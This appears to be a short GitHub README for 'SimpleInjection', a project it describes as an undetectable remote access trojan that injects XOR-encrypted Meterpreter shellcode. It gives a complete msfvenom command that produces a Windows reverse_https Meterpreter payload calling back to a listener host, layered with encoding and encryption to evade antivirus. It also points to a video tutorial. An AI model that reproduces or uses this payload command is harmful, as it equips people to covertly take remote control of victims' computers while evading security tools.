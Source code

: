 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector) THIS IS A SOLUTION FOR MONODEVLEOP OR VISUAL STUDIO

watch my video on Youtube: https://youtu.be/9TmrtGeIiUY

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -e x64/zutto_dekiru -i 20 --encrypt xor --encrypt-key byte4RR4Y -f csharp


![7R5CcVwJfzn3](https://user-images.githubusercontent.com/121404035/210647849-107fb416-314d-4eeb-a4e1-ef55199f8b42.png)
